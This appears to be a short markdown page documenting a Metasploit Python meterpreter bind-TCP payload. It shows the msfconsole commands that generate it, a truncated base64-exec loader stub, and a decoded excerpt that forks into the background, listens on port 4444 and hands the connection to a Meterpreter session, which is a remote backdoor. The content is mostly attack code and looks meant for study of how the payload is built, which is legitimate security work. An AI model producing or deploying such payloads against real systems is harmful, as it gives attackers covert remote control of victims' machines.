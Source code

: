# Metasploit python meterpreter_bind_tcp (single payload)

## Single payload

### Generate

```
msf5 > use payload/python/meterpreter_bind_tcp
msf5 payload(python/meterpreter_bind_tcp) > generate -f raw -o single.py
```
### Result
```python
import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('IyEvdXNyL2Jpbi9weXRob24KaW1wb3J0IGJpbmFzY2lpCmltcG9yd...
...)))
```

### Base64 Decoded Content
The meterpreter payload is invocated as follows (see end of file):
```python
...
_try_to_fork = TRY_TO_FORK and hasattr(os, 'fork')
if not _try_to_fork or (_try_to_fork and os.fork() == 0):
    if hasattr(os, 'setsid'):
        try:
            os.setsid()
        except OSError:
            pass
    if HTTP_CONNECTION_URL and has_urllib:
        transport = HttpTransport(HTTP_CONNECTION_URL, proxy=HTTP_PROXY, user_agent=HTTP_USER_AGENT,
                http_host=HTTP_HOST, http_referer=HTTP_REFERER, http_cookie=HTTP_COOKIE)
    else:
        bind_sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

        bind_sock.bind(('0.0.0.0', 4444))

        bind_sock.listen(1)

        s, address = bind_sock.accept()

        transport = TcpTransport.from_socket(s)
    met = PythonMeterpreter(transport)
    # PATCH-SETUP-TRANSPORTS #
    met.run()
```

Full payload contents are stored in file `single_decoded.py`.
